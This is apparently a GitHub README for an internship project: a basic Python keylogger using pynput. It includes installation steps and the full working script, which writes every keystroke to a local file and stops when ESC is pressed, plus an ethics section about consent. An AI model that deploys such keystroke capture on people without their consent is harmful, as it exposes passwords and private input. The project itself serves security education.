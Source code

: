 

Simple Keylogger in Python
Project Overview
Welcome to the Simple Keylogger in Python project! This project is part of my internship at Prodigy InfoTech. The goal of this task is to create a basic keylogger that captures and logs keystrokes. This project serves as a learning experience to understand how keyloggers work, their ethical implications, and the importance of cybersecurity.

Features
Keystroke Logging: Captures all keystrokes made by the user.
Special Key Handling: Identifies and logs special keys (e.g., Shift, Ctrl, etc.).
Logging to File: Saves the logged keystrokes to a specified text file.
Start/Stop Functionality: Listens for key press and release events to start and stop the keylogger.
Getting Started
Prerequisites
Ensure you have Python installed on your machine. You can download Python from here.

Installation
Clone the repository:

bash
Copy code
git clone https://github.com/Liyu-Desta/PRODIGY_CS_04.git
cd PRODIGY_CS_04
Install the required library:

bash
Copy code
pip install pynput
Usage
Navigate to the project directory:

bash
Copy code
cd PRODIGY_CS_04
Run the keylogger script:

bash
Copy code
python keylogger.py
Press keys on your keyboard to log them. The keystrokes will be saved to key_log.txt in the same directory.

To stop the keylogger, press the ESC key.

Code Explanation
The keylogger script is structured as follows:

python
Copy code
from pynput import keyboard

# Define the file where the keystrokes will be logged
log_file = "key_log.txt"

# Function to log the keystrokes
def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f'{key.char}')
            print(f'Logged key: {key.char}')  # Debugging print statement
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f'[{key}]')
            print(f'Logged special key: {key}')  # Debugging print statement

# Function to stop the keylogger (for demonstration, let's stop on ESC key)
def on_release(key):
    if key == keyboard.Key.esc:
        return False

# Start the listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
on_press: This function logs regular and special keystrokes to key_log.txt.
on_release: This function stops the keylogger when the ESC key is pressed.
keyboard.Listener: Starts the listener to monitor key press and release events.
Ethical Considerations
Important: This keylogger is for educational purposes only. Logging keystrokes without explicit permission is illegal and unethical. Always obtain consent from users before deploying any keylogging software. Use this knowledge responsibly to enhance cybersecurity.

License
This project is licensed under the MIT License. See the LICENSE file for details.

Acknowledgments
Prodigy InfoTech: For the opportunity to work on this project.
pynput Library: For providing an easy-to-use interface for keyboard and mouse input monitoring.
Contact
For any questions or inquiries, please contact me at tiragoliyu@gmail.com.
Happy Coding!
